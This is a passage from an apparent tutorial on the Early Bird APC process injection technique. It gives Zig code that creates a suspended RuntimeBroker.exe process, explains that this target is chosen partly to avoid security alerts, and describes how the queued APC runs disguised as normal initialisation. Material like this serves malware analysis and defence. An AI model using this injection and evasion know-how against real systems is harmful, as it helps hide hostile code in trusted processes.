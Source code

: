 - APC is queued while thread is suspended/debugged
- When thread resumes, APC executes before original code
- Appears as legitimate process initialization

## Process Creation and Target Selection

### Target Process Selection

```zig
const TARGET_PROCESS = "RuntimeBroker.exe";
```

RuntimeBroker.exe is chosen because:

- It's a legitimate Windows system process
- Commonly running on Windows systems
- Has appropriate privileges for demonstration
- Less likely to trigger security alerts

### Process Path Resolution

```zig
fn createSuspendedProcess2(
    lpProcessName: [*:0]const u8,
    dwProcessId: *windows.DWORD,
    hProcess: *windows.HANDLE,
    hThread: *windows.HANDLE,
    method: ProcessCreationMethod,
) bool {
    var lpPath: [MAX_PATH * 2]u8 = undefined;
    var WnDr: [MAX_PATH]u8 = undefined;

    // Get Windows directory (usually C:\Windows)
    if (GetEnvironmentVariableA("WINDIR", &WnDr, MAX_PATH) == 0) {
        print("[!] GetEnvironmentVariableA Failed With Error : {d} \n", .{windows.kernel32.GetLastError()});
        return false;
    }

    // Build full path: C:\Windows\System32\RuntimeBroker.exe
    const formatted = std.fmt.bufPrintZ(&lpPath, "{s}\\System32\\{s}", .{
        WnDr[0..std.mem.indexOfScalar(u8, &WnDr, 0).?],
        std.mem.span(lpProcessName)
    }) catch {
        print("[!] Failed to format path\n", .{});
        return false;
    };
```

## Resume Methods

The technique uses different methods to resume execution based on the creation method:
